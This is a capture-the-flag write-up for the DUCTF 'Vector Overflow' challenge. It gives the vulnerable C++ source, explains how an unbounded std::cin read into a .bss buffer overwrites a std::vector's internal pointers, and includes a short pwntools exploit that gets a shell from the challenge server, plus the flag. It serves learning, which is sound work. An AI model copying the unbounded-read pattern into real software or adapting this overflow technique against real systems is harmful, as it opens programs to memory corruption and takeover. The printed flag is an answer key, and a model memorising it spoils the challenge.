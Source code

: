 # DUCTF Vector Overflow

## chall
```c++
#include <cstdlib>
#include <iostream>
#include <string>
#include <vector>

char buf[16];
std::vector<char> v = {'X', 'X', 'X', 'X', 'X'};

void lose() {
    puts("Bye!");
    exit(1);
}

void win() {
    system("/bin/sh");
    exit(0);
}

int main() {
    char ductf[6] = "DUCTF";
    char* d = ductf;

    std::cin >> buf;
    if(v.size() == 5) {
        for(auto &c : v) {
            if(c != *d++) {
                lose();
            }
        }

        win();
    }

    lose();
}
```

## Approach
* overflow
  * std::cin is no limit to input. This cause buffer overflow.
```C++
    std::cin >> buf;
```
In this challenge, buf allocated in .bss region. I can overwrite the vector by buffer overflow.
 ```plain text
004051e0  buf:
004051f0  v:
```
* type of vector
  * _M_start has a pointer of the head of string
  * _M_finish has a pointer of the end of string
  * _M_end_of_storage has a pointer of the end of buffer
> `std::vector` allocates approximately twice the current capacity when it runs out of buffer.
```c++
typename _Tp_alloc_type::pointer _M_start;
typename _Tp_alloc_type::pointer _M_finish;
typename _Tp_alloc_type::pointer _M_end_of_storage;
```
When the .bss assembled like following, condition of program will be always true.
```plain text
004051e0  buf:
004051e0  'D' 'U' 'C' 'T' 'F' 'a' 'a' 'a' 'a' 'a' 'a' 'a' 'a' 'a' 'a' 'a' 
004051f0  v:
004051f0  0x4051e0 _M_start -> buf start
004051f8  0x4051e5 _M_finish -> buf end
00405200  0x4051e5 _M_end_of_storage -> buf end
```
## exploit
```python
from pwn import *

#e = ELF("vector_of")
#p = process("vector_of")
p = remote("2024.ductf.dev", 30013)

p.sendline(b"DUCTF"+b"a"*11 + p64(0x4051e0) + p64(0x4051e5) + p64(0x4051e5))

p.interactive()
```

## flag
DUCTF{y0u_pwn3d_th4t_vect0r!!}
